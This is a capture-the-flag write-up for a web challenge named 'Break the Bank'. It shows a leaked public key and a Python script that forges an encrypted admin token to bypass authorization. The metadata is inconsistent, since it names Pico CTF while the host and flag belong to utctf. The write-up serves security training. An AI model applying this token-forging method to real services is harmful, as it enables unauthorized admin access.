



# Break the Bank — Pico CTF 2026

> **Room / Challenge:** Break the Bank (Web)

---

## Metadata

- **CTF:** Pico CTF 2026
- **Challenge:** Break the Bank (web)
- **Target / URL:** `challenge.utctf.live:5926`

---

## Goal

Grant admin priviledge and get the flag.

## My Solution

The home page have lots of information related to finance, however we just need to notice two routes appeared: `/login.html` and `/resources/FNSB_InternetBanking_Guide.pdf`. In `FNSB_InternetBanking_Guide.pdf` I found a credentials that we can use to login:



After login we are redirected to `/profile` (of course with no flag). Check the cookie got a JWT token:

```
eyJjdHkiOiJKV1QiLCJlbmMiOiJBMjU2R0NNIiwiYWxnIjoiUlNBLU9BRVAtMjU2In0.Bmw8O7WGYuLi79tKzBW1GcIggUFJG3alEiXpZUa46IobpZKBiSJZ5YvaZIa5YYfch2vTl1gFogctrGB4ZWP37mkCVSRthM-x0S58wYoTcSFpfCjIkrzqB-WKOvsLLpOU_i1Ffx3SjEhFY42GTwm-y0k6MfzhFhfmWxRE-5e73FLUNiZxHmdBzeS-bt-KQyvm80fKtg0n5d3bd4C1YpJryPZupTi1R211tlIlFyd1Tw0F1deDlma2aV-hzEILKsrxTqQ-jNk7Z5WtuHP8f7wPjsy6Cro-gym-R-5a7dWd4rNMdiHxedp1f4rNqppGpaLz0-iB9O_HU32382f-nGIRWQ.FSMfrbJ8YbBQEu7p.nJJP2OzIuEUwEkN7JKFmF1F0q24mlEGKPIChczVrQzvpyt3Ts4UOk-pyjIWixadKjFQipUVTtIFiUT_XLRe0U32dM6Xwn6CZIp8LiQM64mZ-PrEarwsVSJGys-vB9P8GXiJvC48hSlQ92-AIXajaST-B8K6p2sCe-ZjKe1ZnNQmdQDmCXtXQV_qb5WmyQCRQYOdR8cuGMYZv_8MWe1JZW_Yg8irmrHw9_If0p4Dl2GDs_EDhNC2-KfNotp8JC-pKtae_awQinUzGUNrTfCfyK77lp_Jwsv8w4cYqPcK9SZWsFEjQ6ZIze_4qGhX9PPml34MCJUWHukQTe7kOXr8kWyeP1oApohfoQU_dbbUvi_LBYOjkptBThzgDRFqVcon15W633HWuzCHGYWSPZJKpmf9xjLw1I5_qosvHaJlQyT18qF-Dne911LJ39yZDVVCbgIj9D3W7em7hznkq9EsET7XLRpOP4y2OGW9fwevYWZr45Sf4vsknvGKnevezaw1YueqlAQWBk7OS0bC2nS1HidHbGh8TrUHmObzvQtfPLtnNvYkFT2q_ui0z0dUf0n6j8QNXKbQC3u6VRxGesNcHBAvxT6fvSDpMTwZ3iNSR2HkwrGcKCzHxSuxpUITuDCWbz11KWPbIgcp_dGODSOahUpFcdw54Nkla9dLsd3dkfw.dJvEvyle1qRXax0xpyL_4Q
```

This JWT token has `alg: RSA-OAEP-256`, I tried visiting `/admin` and of course we haven't got admin priviledge yet.

Check `/resources` got a `key.pem` file, which we can use it to create admin JWT token:

```
-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAsio2dcXheqKLrteRx4V1
7FchW6AE2zszlMyiN8S7D16ww1a9AFC8EQhEHNW1PLXncXiimNeb6/oZP2+V18gE
ZoyKIET2oHC4MmthSOFrW0nFgfgRJdH7VyEVHupFL6tFAJvHFWVplTgCdqtegihG
cG7XKUGah4Q8FytlIhk/A983LtbblhAnfKTeBwxT2wVZE9+5pWhPmdGLoX3Hf0Uy
pHJTkL6D7C4X4KGJiNrSJ6mJw4sDpXlZEvagB0uFaO4b22WX6HSf2ZOBW5VHEWS5
TiKvliyTQL3FJWXefqxHgQL8diDWhWwYXI7Q0b+otJ5/G/jMGL2S+N10oJTitTuK
OQIDAQAB
-----END PUBLIC KEY-----
```

Create JWT token with admin priviledge:

```python
from jwcrypto import jwk, jwe
import json
import time

public_key_pem = b"""-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAsio2dcXheqKLrteRx4V1
7FchW6AE2zszlMyiN8S7D16ww1a9AFC8EQhEHNW1PLXncXiimNeb6/oZP2+V18gE
ZoyKIET2oHC4MmthSOFrW0nFgfgRJdH7VyEVHupFL6tFAJvHFWVplTgCdqtegihG
cG7XKUGah4Q8FytlIhk/A983LtbblhAnfKTeBwxT2wVZE9+5pWhPmdGLoX3Hf0Uy
pHJTkL6D7C4X4KGJiNrSJ6mJw4sDpXlZEvagB0uFaO4b22WX6HSf2ZOBW5VHEWS5
TiKvliyTQL3FJWXefqxHgQL8diDWhWwYXI7Q0b+otJ5/G/jMGL2S+N10oJTitTuK
OQIDAQAB
-----END PUBLIC KEY-----"""

key = jwk.JWK.from_pem(public_key_pem)

now = int(time.time())
claims = {
    "sub": "admin",
    "iat": now,
    "exp": now + 3600 # Expires in 1 hour
}

payload = json.dumps(claims).encode('utf-8')

protected_header = {
    "alg": "RSA-OAEP-256",
    "enc": "A256GCM",
    "cty": "JWT"
}

jwetoken = jwe.JWE(payload, recipient=key, protected=protected_header)

print(jwetoken.serialize(compact=True))
```

Use created JWT token and visit `/admin` to get the flag.

Flag: `utflag{s0m3_c00k1es_@re_t@st13r_th@n_0th3rs}`
